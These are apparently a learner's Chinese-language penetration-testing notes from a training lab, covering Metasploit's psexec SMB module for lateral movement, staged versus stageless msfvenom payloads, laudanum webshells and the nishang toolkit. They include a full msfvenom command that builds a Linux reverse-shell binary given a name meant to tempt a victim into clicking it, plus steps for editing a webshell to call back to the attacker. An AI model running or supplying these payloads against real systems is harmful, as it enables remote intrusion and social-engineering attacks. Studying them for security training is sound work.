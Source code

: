 metasploit 的一些细节
1 smb  psexec 模块
 psexec 是 一个 横向移动的工具 攻击者可以利用psexec来执行 一些远程代码工作：具体细节：
 https://www.silverfort.com/glossary/psexec/#what-is-psexec-used-for
 2psexec 与powershell 的区别 ：
 psexec 仅仅是单个的命令行执行工具，无法向powershell 的一样执行多种任务 ，算是初级与目标任务点的工具
 3psexec 与smb之间有这密不可分的联系 是 横向移动的一把手
 4 当出现smb等服务的时候需要首先想到对方是否机器上安装了psexec 等工具
5利用完对应模块后 ，在window 初步建立shell后 进行交互提升 可以使用 shell 来将window的交互提升到一个全新的等级
在window上注意拿到powershell互动后去user里面看看

常规利用  shell 进行工作  


二 当对方无网络的时候 或者 有限制的时候 可以通过msfvenom制作有效负载一起发送到对方 上面 进行社工手段
1 在命令太输入  msfvenom -l payloads 后可以列出所有可用的payload s 
然后 进行 查看
![[Pasted image 20240424213741.png]]
当进行查看完毕后，观察到有连个 staged 跟 stageless  

分阶段（staged）：可以搭建舞台进行的一个   操作 当链接的时候 
我们需要设置 一些操作后受害者机器 回弹一个shell 利用成功后进行 提权等 狗仔运行的shell操作 ，即可，可以通过shellcode进行连接 并且进行利用
比如第一阶段是 tcp客户端 第二段反弹等等 


跟无阶段（stageless） :
这个更为隐蔽  直接一次性发送全部 但是容易不稳定
更详细分析请阅读：
https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/

构造无阶段有效的负载 ：
命令如下:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=本地的主机 LPORT =本地开放的端口 -f elf>看起来很容易被点击的名字.elf`
各种部分解释如下：
1 -p 表明这个msfvenom正在创建有效的负载
2 linux 。。。根据架构选择的有效负载 tcp的反向shell
3 lhost 的地址 链接回弹 也就是攻击者的地址
4 -f elf 是 生成一个二进制的文件格式 这个是elf
5 >xxx.elf生成一个 喜欢的名字的elf文件

### laudanum  构造webshell 
这个软件的目的： 注入反向webshell搞事情
存放位置：1kali 中自带位置是/usr/share/laudanum
非kali中需要访问 ：https://github.com/jbarcia/Web-Shells/tree/master/laudanum 
可以得到对应的webshell操作
使用方法 ：
1准备工作：在/etc/hosts上面添加 <目的ip地址> 虚拟主机  在这个实验中是 ：status.inlanefreight.local
2 进行复制文本后进行修改 后代码 然后 修改内部细节 比如 ip地址  反弹 到本机的IP地址等行为 


###工具二 ：nishang
github地址：
https://learn.microsoft.com/en-us/aspnet/overview 要攻击的原理 
工具地址
https://github.com/samratashok/nishang
